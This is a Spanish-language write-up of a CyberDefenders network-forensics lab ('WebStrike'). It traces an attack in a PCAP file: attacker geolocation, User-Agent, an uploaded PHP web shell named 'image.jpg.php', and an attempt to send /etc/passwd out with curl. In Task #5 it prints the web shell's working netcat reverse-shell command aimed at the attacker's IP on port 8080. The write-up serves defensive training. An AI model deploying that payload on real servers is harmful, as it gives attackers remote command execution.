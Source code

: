 ```yaml
---
title: WebStrike - CyberDefenders
published: 2025-02-16
description: 'En este laboratorio, nos adentramos en la investigación forense de una actividad sospechosa detectada en un servidor web de la empresa, capturada y proporcionada en forma de un archivo PCAP para su análisis. El escenario resalta un incidente de seguridad crítico que involucra la carga no autorizada de un web shell malicioso, la ejecución de comandos subsecuentes e intentos de exfiltrar datos sensibles. A través de este análisis, desvelaremos los métodos empleados por el atacante, las vulnerabilidades explotadas y las técnicas utilizadas para mantener el acceso no autorizado al servidor.'
image: '../../../assets/CyberDefenders/WebStrike/webstrike-banner.webp'
tags: [CyberDefenders, BlueTeam, SOC]
category: 'WriteUp'
draft: false 
---
```


En este laboratorio de **[CyberDefenders](https://cyberdefenders.org/blueteam-ctf-challenges/webstrike/)**, nos adentramos en la investigación forense de una actividad sospechosa detectada en un servidor web de la empresa, capturada y proporcionada en forma de un archivo PCAP para su análisis. El escenario resalta un incidente de seguridad crítico que involucra la carga no autorizada de un web shell malicioso, la ejecución de comandos subsecuentes e intentos de exfiltrar datos sensibles. A través de este análisis, desvelaremos los métodos empleados por el atacante, las vulnerabilidades explotadas y las técnicas utilizadas para mantener el acceso no autorizado al servidor.

~~~
Platform: CyberDefenders
Level: Easy
Type: SOC, Network Forensics
~~~

### Lab Scenario

> Se identificó un archivo sospechoso en el servidor web de la empresa, lo que generó alertas dentro de la intranet. El equipo de Desarrollo marcó la anomalía, sospechando de una posible actividad maliciosa. Para abordar el problema, el equipo de redes capturó el tráfico de red crítico y preparó un archivo PCAP para su revisión. Tu tarea es analizar el archivo PCAP proporcionado para descubrir cómo apareció el archivo y determinar el alcance de cualquier actividad no autorizada.

### Key Information

- Un archivo **`PCAP (Packet Capture)`** es un archivo utilizado para almacenar datos de red capturados, es decir, las comunicaciones o paquetes de datos que viajan a través de una red. Debido a que un archivo PCAP puede contener información sensible, como credenciales o datos personales, su manejo debe ser adecuado para evitar fugas de información.

- La **`data exfiltration`** es el proceso de obtener o transferir datos de un sistema o red sin autorización. Este término se utiliza principalmente en el contexto de la ciberseguridad, donde se refiere al robo o fuga de información sensible, como datos personales, secretos comerciales, información financiera o cualquier otro tipo de dato valioso.

### Analysis

**`Wireshark`** es una de las herramientas más populares y utilizadas para el análisis y captura de paquetes de red. Es un **analizador de protocolos de red** de código abierto que permite a los usuarios capturar, inspeccionar y analizar el tráfico que pasa por una red.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-1.png)

#### Task #1

> **Identifying the geographical origin of the attack helps in implementing geo-blocking measures and analyzing threat intelligence. From which city did the attack originate?**

La **geolocalización IP** es el proceso mediante el cual se determina la ubicación física asociada a una dirección IP, utilizando datos como el país, la ciudad, la latitud y el proveedor de servicios de internet (ISP). En el ámbito de la ciberseguridad, esta herramienta resulta esencial para identificar el origen de actividades en la red, como ataques o accesos no autorizados, y es fundamental para implementar medidas de geo-bloqueo y ajustar estrategias contra amenazas cibernéticas.

Al abrir el archivo `PCAP` con **Wireshark**, observamos que solo hay dos direcciones IP involucradas:

- **`117.11.88.124`**
- **`24.49.63.79`**

Al ordenar los paquetes por tiempo, descubrimos que la dirección IP **`117.11.88.124`** estableció conexión a la dirección **`24.49.63.79`**, lo que sugiere que esta dirección podría pertenecer al atacante. Utilizando la herramienta **[https://www.iplocation.net/](https://www.iplocation.net/)**, podemos obtener la ciudad de origen del ataque.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-2.png)

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-3.png)

Por lo visto, la ciudad de origen del ataque es **Tiajin, China** y la victima es procedente de **Maryland, United States**. Por lo que efectivamente, la dirección IP del atacante es **`117.11.88.124`**

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-1.png)

#### Task #2

> **Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's User-Agent?**

Un **User-Agent (UA)** es una cadena de texto que se incluye en los encabezados HTTP de una solicitud de red, enviada por un cliente (generalmente un navegador web, pero también puede ser una aplicación u otro tipo de cliente) al servidor. Esta cadena proporciona información detallada sobre el software que realiza la solicitud. Buscamos los encabezados **`HTTP`**:

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-4.png)

La cadena **`Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`**. indica que la solicitud proviene de un navegador **Firefox** versión **115.0**, que se está ejecutando en un sistema **Linux** de 64 bits. El sistema utiliza **X11**, el sistema de ventanas estándar en entornos Unix y Linux. El motor de renderizado utilizado es **Gecko** versión **109.0**, y la fecha de compilación de ese motor es **20100101**. Además, el valor "Mozilla/5.0" es un identificador genérico utilizado para asegurar la compatibilidad con servidores antiguos.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-2.png)

#### Task #3

> **We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?**

Una **web shell** es un script malicioso que se carga en un servidor web para permitir a un atacante ejecutar comandos arbitrarios en el servidor de forma remota. Las **web shells** suelen aprovechar vulnerabilidades en aplicaciones web, como malas configuraciones o fallos en la seguridad de scripts o plataformas (por ejemplo, PHP, ASP, etc.). Una vez instalada, la web shell permite al atacante realizar una variedad de acciones. Básicamente, actúa como una puerta trasera que da acceso al atacante al sistema comprometido, lo que le permite controlar y manipular el servidor sin la autorización del administrador. Los atacantes suelen cargar la web shell mediante formularios de carga de archivos o enviando peticiones con scripts maliciosos. 

En este contexto, el atacante suele utilizar el método **POST** para cargar un archivo malicioso (como un script PHP, ASP, JSP, etc.) en el servidor web. Por lo que al utilizar el filtro **`ip.src == 117.11.88.124 && http.request.method == "POST"`**, podemos concentrarnos en las solicitudes **POST** que provienen de una dirección IP específica, lo cual nos ayuda a identificar posibles cargas de archivos maliciosos o comandos ejecutados desde esa IP hacia el servidor.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-5.png)

Luego de aplicar el filtro en Wireshark para filtrar por el método **POST**, notamos que se realizó una petición HTTP con la siguiente información:

**POST /reviews/upload.php HTTP/1.1**
- **Content-Type**: `application/x-php`
- **Filename**: `"image.jpg.php"`

Este detalle es altamente sospechoso, ya que aunque el archivo parece ser una imagen (por la extensión **.jpg**), el nombre del archivo termina en **.php**, lo que sugiere que el atacante está intentando subir un archivo PHP malicioso disfrazado de imagen.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-3.png)

#### Task #4

> **Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?**

Para identificar la ruta en la que se almacena el archivo cargado, en este caso, se utiliza el filtro **`ip.src == 117.11.88.124 && http.request.uri contains "image.jpg.php"`**. Este filtro permite aislar todas las solicitudes **HTTP** relacionadas con la ruta **`image.jpg.php`**, lo cual es crucial para detectar **intentos de ejecución o acceso** al archivo malicioso cargado. Dicho filtro resulta especialmente útil para rastrear los esfuerzos del atacante por interactuar con el archivo y ejecutar código malicioso en el servidor.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-6.png)

Se observa que la **web shell** se almacena en la ruta **`/reviews/uploads/`**

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-4.png)

#### Task #5 

> **Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?**

Para identificar el puerto abierto en la máquina atacante, es necesario examinar la web shell. Al revisar el payload, podemos observar que el puerto utilizado es el **8080**, ya que en el código de la web shell se encuentra la siguiente instrucción:

**`<?php system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 nc 117.11.88.124 8080 >/tmp/f"); ?>`**

Este comando utiliza **Netcat** (`nc`) para establecer una conexión saliente hacia la IP **117.11.88.124** a través del puerto **8080**, lo que confirma que este puerto es el objetivo de la comunicación no autorizada.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-7.png)

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-5.png)

#### Task #6

> **Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?**

Se puede observar que el atacante está utilizando **CURL** para transferir el archivo **`/etc/passwd`** desde la máquina comprometida hacia su propia máquina, estableciendo la comunicación a través del puerto **443**. 

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-8.png)

El archivo **`passwd`** contiene información crítica sobre las cuentas de usuario del sistema, lo que indica que el atacante está intentando exfiltrar datos sensibles.

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/task-6.png)

**[Verify Achievment](https://cyberdefenders.org/blueteam-ctf-challenges/progress/Yw4rf/149/)**

![WebStrike Yw4rf](../../../assets/CyberDefenders/WebStrike/webstrike-cyberdefenders.png)